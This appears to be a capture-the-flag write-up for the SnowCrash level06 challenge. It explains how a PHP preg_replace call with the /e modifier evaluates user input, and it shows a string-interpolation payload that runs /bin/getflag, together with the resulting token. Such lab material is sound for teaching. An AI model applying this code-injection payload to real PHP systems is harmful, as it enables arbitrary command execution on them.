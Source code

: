 # Level06
### Description
There is a binary and a php script inside the home

![php script](level06_1.png "Regex is such trouble")

## Solution

- Analysing script we can see that it is mostly string processing of the first argument of script using the function reg_replacebr <br>
By dissassembling the binary we can see that it is just calling the php script as a subroutine with the same arguments with give it

- Research bring us a possible solution the first reg_replace use the option */e* which *evaluate* the second argument as an expression and since this expression take part of this input we can probably inject some code there
> Since the part of the input is inside double quote we need to do some string interpolation to execute it

```bash
level06@SnowCrash:~$ echo '[x {${exec($z)}}]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit '"/bin/getflag"'
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```